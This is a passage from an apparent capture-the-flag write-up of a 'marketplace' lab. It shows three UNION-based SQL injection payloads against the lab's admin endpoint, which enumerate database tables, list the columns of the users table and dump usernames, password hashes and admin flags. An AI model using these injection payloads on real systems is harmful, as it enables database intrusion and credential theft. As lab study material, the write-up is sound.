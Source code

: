 Knowing that the database is marketplace, we decided to dump the tables present.

Payload: `http://10.10.189.139/admin?user=0%20UNION%20SELECT%201,group_concat(table_name),3,4%20FROM%20information_schema.tables%20WHERE%20table_schema%20=%20%27marketplace%27`

![dump tables](img/marketplace/show%20tables.png)

We then tried to go to the `users` table to obtain the credentials.

Payload: `http://10.10.189.139/admin?user=0%20UNION%20SELECT%201,group_concat(column_name),3,4%20FROM%20information_schema.columns%20WHERE%20table_name%20=%20%27users%27`

![dump columns](img/marketplace/columns%20in%20users%20table.png)

Dumping the usernames and passwords columns in the users table, we obtained the following credentials.

Payload: `http://10.10.189.139/admin?user=0%20UNION%20SELECT%201,group_concat(username,%22:%22,password,%20%22:%22,%20isAdministrator,%20%22\n%22),3,4%20FROM%20users`

![dump columns](img/marketplace/hashes%20dumped.png)
